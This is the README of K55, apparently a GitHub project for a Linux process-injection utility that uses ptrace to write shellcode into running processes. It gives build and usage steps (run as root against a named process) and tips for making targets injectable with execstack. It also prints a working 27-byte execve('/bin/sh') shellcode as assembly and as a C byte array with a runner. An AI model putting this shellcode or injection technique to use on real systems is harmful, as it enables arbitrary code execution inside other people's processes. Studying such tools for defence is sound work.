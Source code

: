 ## K55 - Linux x86_64 Process Injection Utility (C++14)

<p align="center">
  <img src="https://github.com/josh0xA/K55/blob/main/imgs/k55logo.png?raw=true">
</p>

<p align="center">
<a href="https://www.codacy.com/gh/josh0xA/K55/dashboard?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=josh0xA/K55&amp;utm_campaign=Badge_Grade"><img src="https://app.codacy.com/project/badge/Grade/5601be2ff0bb47feae3090d098cec01f"/></a>
<a href="https://lbesson.mit-license.org/" target="_blank"><img src="https://img.shields.io/badge/License-MIT-blue.svg" alt="lisence" /></a>
</p>

## About K55
(pronounced: "kay fifty-five")<br/>
The K55 payload injection tool is used for injecting x86_64 shellcode payloads into running processes. The utility was developed using modern C++11 techniques as well as some traditional C linux functions like ``ptrace()``. The shellcode spawned in the target process is 27 bytes and it executes /bin/sh (spawns a bash shell) within the target's address space. In the future, I will allow users to input there own shellcode via command line arguments.<br/>

## Installation
1.  ``git clone https://github.com/josh0xA/K55.git``<br/>
2.  ``cd K55``<br/>
3.  ``chmod +x build-install.sh``<br/>
4.  ``./build-install.sh``<br/>

## K55 Usage
``Usage: ./K55 <process-name>``<br/>
- process-name can be any linux process with ``r-xp`` or ``execstack`` permissions. <br/>

### Tests
Test 1) In one terminal (K55/ Directory), run: ``./k55_example_process/k55_test_process``<br/>
Test 2) In another terminal, run the injector: ``sudo ./K55 k55_test_process``<br/>

## K55 In Action
- A shell is spawned in k55_test_process when the K55 shellcode injector is ran (as root).
### Injecting Into Given Process
<p align="center">
    <img src="https://github.com/josh0xA/K55/blob/main/imgs/injector_proof.png?raw=true">
</p>

### Shell Spawned In Target
<p align="center">
    <img src="https://github.com/josh0xA/K55/blob/main/imgs/target_proof1.png?raw=true">
</p>

## Limitations
Obviously, ``ptrace(PTRACE_POKETEXT...)`` calls are not the most disguised. So, some applications can limit the effect of K55. Although, for security testing, make sure to turn on ``execstack`` for your target applications. For example if I'm testing on gdb, before I would inject, I would run the following: ``sudo execstack -s /usr/bin/gdb``. Install execstack from your distrobutions package manager. For Arch Linux users, you can find execstack on the AUR.

## Crafting The Shell Payload
Note: The following is a demonstration. The payload string is already hardcoded into K55.

### Assembly Implementation of The Payload ([Cited from shell-storm (redirect)](http://shell-storm.org/shellcode/files/shellcode-806.php))
```asm
main:
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```
#### C-Implementation of The Payload
```c
#include <stdio.h>
#include <string.h>

// Shellcode breakdown of the assembly code.
char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

```
## References
http://shell-storm.org/shellcode/files/shellcode-806.php <br/>
https://0x00sec.org/t/linux-infecting-running-processes/1097 <br/>

## License
MIT License <br/>
Copyright (c) Josh Schiavone
